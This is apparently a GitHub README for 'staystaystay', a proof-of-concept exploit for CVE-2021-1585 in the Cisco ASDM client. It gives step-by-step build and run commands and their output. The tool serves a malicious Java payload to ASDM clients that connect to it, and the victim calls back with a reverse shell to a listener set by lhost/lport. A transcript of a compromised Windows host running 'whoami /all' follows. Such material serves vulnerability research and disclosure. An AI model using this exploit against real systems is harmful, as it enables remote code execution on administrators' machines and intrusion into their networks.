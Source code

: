 # staystaystay

`staystaystay` is a proof of concept exploit for [CVE-2021-1585](https://nvd.nist.gov/vuln/detail/CVE-2021-1585), a man in the middle or evil endpoint RCE issue affecting Cisco ASA Device Manager (ASDM). The issue was originally discovered by [Malcolm Lashley](https://gist.github.com/mlashley/7d2c16e91fe37c9ab3b2352615540025) and disclosed in the summer of 2021. However, since the issue remains unpatched in the latest version (ASDM 7.17(1)), I stumbled upon this independently.

If a victim connects their ASDM to `staystaystay` then it will inject a [Longtime Sunshine](https://github.com/jbaines-r7/longtime-sunshine) payload resulting in a reverse shell. See the following video for an example:



## Usage

Clone and execute [Longtime Sunshine](https://github.com/jbaines-r7/longtime-sunshine). It will listen on 1270 by default.

```sh
albinolobster@ubuntu:~/longtime_sunshine$ sudo apt install nodejs npm
albinolobster@ubuntu:~/longtime_sunshine$ npm install
albinolobster@ubuntu:~/longtime_sunshine$ node longtime.js

   01101100 01101111 01101110 01100111 01110100 
   01101001 01101101 01100101 00100000 01110011 
   01110101 01101110 01110011 01101000 01101001 
  ╦  ┌─┐┌┐┌┌─┐┌┬┐┬┌┬┐┌─┐  ╔═╗┬ ┬┌┐┌┌─┐┬ ┬┬┌┐┌┌─┐
  ║  │ │││││ ┬ │ ││││├┤   ╚═╗│ ││││└─┐├─┤││││├┤ 
  ╩═╝└─┘┘└┘└─┘ ┴ ┴┴ ┴└─┘  ╚═╝└─┘┘└┘└─┘┴ ┴┴┘└┘└─┘
   01101110 01100101 00100000 01110101 01110000 
   01101111 01101110 00100000 01101101 01100101 

$
```

Build and run `staystaystay`. It was written by a lazy hack so it has some outside dependencies: `lzma` and `javac`. The host *must* use Java 1.8 because that is what the ASDM client requires. `lhost` and `lport` should point the `Longtime Sunshine`:

```sh
albinolobster@ubuntu:~/staystaystay$ mkdir build
albinolobster@ubuntu:~/staystaystay$ cd build/
albinolobster@ubuntu:~/staystaystay/build$ cmake ..
-- The C compiler identification is GNU 10.3.0
-- The CXX compiler identification is GNU 10.3.0
-- Detecting C compiler ABI info
-- Detecting C compiler ABI info - done
-- Check for working C compiler: /usr/bin/cc - skipped
-- Detecting C compile features
-- Detecting C compile features - done
-- Detecting CXX compiler ABI info
-- Detecting CXX compiler ABI info - done
-- Check for working CXX compiler: /usr/bin/c++ - skipped
-- Detecting CXX compile features
-- Detecting CXX compile features - done
-- Configuring done
-- Generating done
-- Build files have been written to: /home/albinolobster/staystaystay/build
albinolobster@ubuntu:~/staystaystay/build$ make
Scanning dependencies of target staystaystay
[ 50%] Building CXX object CMakeFiles/staystaystay.dir/src/main.cpp.o
[100%] Linking CXX executable staystaystay
[100%] Built target staystaystay
albinolobster@ubuntu:~/staystaystay/build$ sudo ./staystaystay --lhost 10.0.0.3 --lport 1270
[sudo] password for albinolobster: 
[+] User provided a connect back target of 10.0.0.3:1270
[+] Compiling Payload using `javac PDMApplet.java SgzApplet.java`
[+] Creating JAR entries
[+] Compressing jar entries with `lzma -z jars`
[+] Adding sgz wrapper
[+] Flushing the pdm.sgz to disk
[+] Copying pdm.sgz to the http server
[+] Changing working directory to ../http
[+] Starting python server on :443. Hope you are running as root... it's fine.
Generating a RSA private key
...............................................................................................................................................................................................................................................++++
.......++++
writing new private key to 'key.pem'
-----
Server running on https://0.0.0.0:443
```

Upon successful exploit you should get something like this:

```
albinolobster@ubuntu:~/longtime-sunshine$ nodejs ./longtime.js 

   01101100 01101111 01101110 01100111 01110100 
   01101001 01101101 01100101 00100000 01110011 
   01110101 01101110 01110011 01101000 01101001 
  ╦  ┌─┐┌┐┌┌─┐┌┬┐┬┌┬┐┌─┐  ╔═╗┬ ┬┌┐┌┌─┐┬ ┬┬┌┐┌┌─┐
  ║  │ │││││ ┬ │ ││││├┤   ╚═╗│ ││││└─┐├─┤││││├┤ 
  ╩═╝└─┘┘└┘└─┘ ┴ ┴┴ ┴└─┘  ╚═╝└─┘┘└┘└─┘┴ ┴┴┘└┘└─┘
   01101110 01100101 00100000 01110101 01110000 
   01101111 01101110 00100000 01101101 01100101 

$ 
☀  Connection established by 10.0.0.25:62981
$ agent 0
lowlevel@10.0.0.25$ exec whoami /all

USER INFORMATION
----------------

User Name        SID                                          
================ =============================================
okhuman\lowlevel S-1-5-21-259238101-1730513016-1302440715-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users              Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

## Credit

* Taylor Swift - [Acoustic version](https://www.youtube.com/watch?v=JbiTT82XAo0&t=2423s)
